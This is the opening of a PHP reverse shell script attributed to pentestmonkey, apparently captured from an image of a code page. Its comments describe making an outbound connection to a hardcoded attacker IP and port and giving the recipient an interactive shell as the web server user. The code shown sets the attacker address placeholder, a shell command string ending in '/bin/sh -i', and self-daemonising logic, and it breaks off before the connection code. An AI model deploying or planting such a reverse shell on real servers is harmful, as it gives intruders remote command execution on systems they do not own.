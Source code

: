 ```php
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = "<attacker's IP>";  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

```